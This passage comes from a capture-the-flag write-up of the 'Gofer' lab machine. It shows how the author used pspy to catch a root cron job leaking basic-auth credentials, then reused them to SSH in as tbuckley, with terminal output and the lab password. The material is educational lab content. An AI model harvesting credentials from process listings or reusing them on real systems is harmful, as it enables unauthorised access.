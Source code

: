 ## Privilege Escalation to jhudson
----

I decided to investigate the `/var/mail` directory, given the presence of an internal mail server. However, I couldn't access any other mails within that directory due to permission issues.

```bash
(remote) jhudson@gofer.htb:/usr/bin$ ls -la /var/mail/
total 12
drwxrwsr-x  2 root    mail 4096 Aug  9 09:16 .
drwxr-xr-x 12 root    root 4096 Jul 19 12:44 ..
lrwxrwxrwx  1 root    mail    9 Nov  3  2022 ablake -> /dev/null
lrwxrwxrwx  1 root    mail    9 Nov  3  2022 jdavis -> /dev/null
-rw-r-----  1 jhudson mail    1 Aug  9 09:25 jhudson
lrwxrwxrwx  1 root    mail    9 Nov  3  2022 root -> /dev/null
lrwxrwxrwx  1 root    mail    9 Nov  3  2022 tbuckley -> /dev/null
(remote) jhudson@gofer.htb:/usr/bin$ cat /var/mail/jhudson
```

When attempting to check for sudo privileges, I noticed an unusual absence of the `sudo` binary in the shell. This suggests the possibility of a restricted environment.

```bash
(remote) jhudson@gofer.htb:/home/jhudson$ sudo -l
bash: sudo: command not found
```

Looking for background processes, found a recurring request to the proxy vhost along with credentials for basic authentication.
While searching for background processes using [pspy](https://github.com/DominicBreuker/pspy), I discovered a recurring request to the proxy virtual host, and within it, I found credentials for basic authentication → `tbuckley:ooP4dietie3o_hquaeti`.

```bash
2023/08/09 09:33:01 CMD: UID=0     PID=5521   | /usr/sbin/CRON -f
2023/08/09 09:33:01 CMD: UID=0     PID=5522   | /bin/bash /root/scripts/curl.sh
2023/08/09 09:33:01 CMD: UID=0     PID=5523   | /usr/bin/curl http://proxy.gofer.htb/?url=http://gofer.htb --user tbuckley:ooP4dietie3o_hquaeti
2023/08/09 09:33:01 CMD: UID=0     PID=5526   | /usr/sbin/CRON -f
2023/08/09 09:33:01 CMD: UID=0     PID=5527   | /usr/sbin/CRON -f
2023/08/09 09:33:01 CMD: UID=0     PID=5528   | /usr/sbin/postdrop -r
2023/08/09 09:33:01 CMD: UID=0     PID=5529   | /bin/bash /root/scripts/mail.sh
2023/08/09 09:33:01 CMD: UID=0     PID=5530   | /usr/bin/grep -Eo http://[^ >]+ /var/mail/jhudson
```

The credentials I found were reused for SSH access to the `tbuckley` user account. It's interesting to note that `tbuckley` is also part of the `dev` group.

```bash
(remote) tbuckley@gofer.htb:/home/tbuckley$ id
uid=1002(tbuckley) gid=1002(tbuckley) groups=1002(tbuckley),1004(dev)
```

---
## Privilege Escalation to root
----
